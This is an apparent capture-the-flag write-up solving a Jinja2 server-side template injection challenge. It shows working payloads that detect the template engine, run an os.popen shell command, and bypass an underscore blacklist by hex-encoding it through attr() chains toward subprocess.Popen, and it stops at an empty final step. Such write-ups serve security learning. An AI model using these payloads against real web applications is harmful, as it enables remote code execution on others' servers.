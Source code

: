 # SSTI2
## Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
2. However, when we run `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`, the website return "Stop trying to break me message", indicating filter is being used.
3. To solve this, I refer to the websites https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/ninja and https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f to learn about bypassing blacklist filter.
4. First, when I try out '().__class__', it is getting blocked as the underscore is being blacklisted.
5. Try encode the underscore with '\x5f' by using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')}}'**. Bypass successful.
6. Next, just search **<class ‘subprocess.Popen’>** in subclasses using **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')}}'**
7. 

